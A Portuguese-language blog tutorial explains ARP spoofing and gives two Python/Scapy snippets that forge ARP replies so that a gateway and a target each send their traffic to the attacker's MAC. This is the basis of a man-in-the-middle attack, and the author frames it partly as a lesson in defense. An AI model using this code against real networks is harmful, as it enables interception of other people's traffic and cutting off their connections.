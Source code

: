 #### ARP spoofing ou ARP cache poisoning

Você leitor vai pensando como se defender desse tipo de ataque, lógico no final irei apresentar algumas soluções, porque é um ataque simples de fazer e na maioria das vezes o atacante consegue éxito seja lá qual for a intenção dele, até mesmo tirar a conexão com a internet como algumas aplicativos fazem no android, por exemplo **WiFikill** que usa esssa mesma técnica a partir de um aparelho "rootiado". só pare resfescar a sua mente wiki:

>
ARP spoofing ou ARP cache poisoning é uma técnica em que um atacante envia mensagens ARP (Address Resolution Protocol) com o intuito de associar seu endereço MAC ao endereço IP de outro host, como por exemplo, o endereço IP do gateway padrão, fazendo com que todo o tráfego seja enviado para o endereço IP do atacante ao invés do endereço IP do gateway.

Interpretando o texto acima, pereceba que a única coisa que o atacante faz é mandar packets ou messagens do tipo **ARP** para forçar o cliente ou a vítima mandar os requests para ele. Sabendo disso, a única informação que ele precisa no momento é saber quem é o gateway, ou melhor dizendo quem é o **MAC (Media Access Control)** do gatway, e o **MAC** da vítima que é muito simples de detectar em uma rede LAN **(local area networks - LAN)**.

Para montar o nosso packet ARP spoofing, precisamos apenas de duas informações como citei acima **sourceMac** and **destMAC**, não irei explicar cada um dos campos do pacotes pois essas informações é por sua conta amigo. diagrama:

![arp_packet](/images/posts/DNS/arp.png)

#### thread 1

Na prática fica assim:

``` python
self.srcAddress = 'GATEWAY'
self.dstAddress = 'TARGET'
self.mac        = 'ATACANTE'

ether = Ether(dst = 'ff:ff:ff:ff:ff:ff',src = self.mac)
parp  = ARP(hwtype = 0x1,ptype = 0x800,hwlen = 0x6,plen = 0x4,
op = "is-at",hwsrc = self.mac,psrc = self.srcAddress,hwdst =
'ff:ff:ff:ff:ff:ff',pdst = self.dstAddress)
padding = Padding(load = "\x00"*18)
packet_arp= ether/parp/padding
```
>
ATACANTE -"olá gateway, a partir de agora eu sou a máquina TARGET, então tudo que você for mandar pra esse MAC mande pra mim"

#### thread 2

``` python

self.srcAddress = 'TARGET'
self.dstAddress = 'GATEWAY'
self.mac        = 'ATACANTE'

ether = Ether(dst = 'ff:ff:ff:ff:ff:ff',src = self.mac)
parp  = ARP(hwtype = 0x1,ptype = 0x800,hwlen = 0x6,plen = 0x4,
op = "is-at",hwsrc = self.mac,psrc = self.srcAddress,hwdst =
'ff:ff:ff:ff:ff:ff',pdst = self.dstAddress)
padding = Padding(load = "\x00"*18)
packet_arp= ether/parp/padding
```
>
ATACANTE -"olá TARGET, a partir de agora eu sou o GATEWAY, então tudo que você for mandar pra esse MAC mande pra mim"
